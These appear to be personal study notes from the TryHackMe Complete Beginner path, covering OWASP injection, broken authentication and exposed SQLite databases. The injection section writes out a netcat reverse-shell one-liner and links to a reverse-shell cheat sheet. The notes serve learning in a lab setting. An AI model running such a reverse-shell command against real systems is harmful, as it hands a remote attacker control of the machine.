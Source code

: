 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks  
* **date**:: 2021-10-05

## OWASP Top 10

### (Severity 01) Injection

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like:

```bash
nc -e /bin/bash $LOCAL_IP $LOCAL_PORT
```

I'm pretty sure that this would have allowed us to avoid all of the named-pipe-magic that Metsploit generated a couple of days ago… Though I'm also pretty sure that Metasploit's code is more robust (since it will work with versions of nc that *don't* support the -e flag).

[A library of reverse shell methods.](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Injection attacks can be divided into two broad classes:

BLIND attacks are ones where command output is not returned to the attacker in a server response.

ACTIVE attacks are those where the command output *is* returned to the attacker in a server response.

* [2021-10-02 — TryHackMe: Complete Beginner](2021-10-02-tryhackme-complete-beginner.md)

### (Severity 02) Broken Authentication

Sometimes you don't need to steal a session cookie… If the webserver isn't setting session cookies in a sufficiently random fashion, *forging* one can become an option!

The TryHackMe tutorial implies that a common mistake is to allow the registration of a username that matches an existing user but with a leading or trailing whitespace character; sometimes this new user will be interpreted to be the same as the old user (the one without the whitespace), resulting in the same level of access as that user.

Honestly, I'm trying to imagine how this would happen in most realistic contexts. Yes, it's easy to construct an example in Bash (etc.), but most languages I've seen web apps written it take string quoting a lot more seriously.

### (Severity 03) Sensitive Data Exposure

So, the trick this section is talking about is that some small web applications use SQLite databases, and a sloppy webdev might store the database file in the application webroot where it can be downloaded and then read at our leisure.
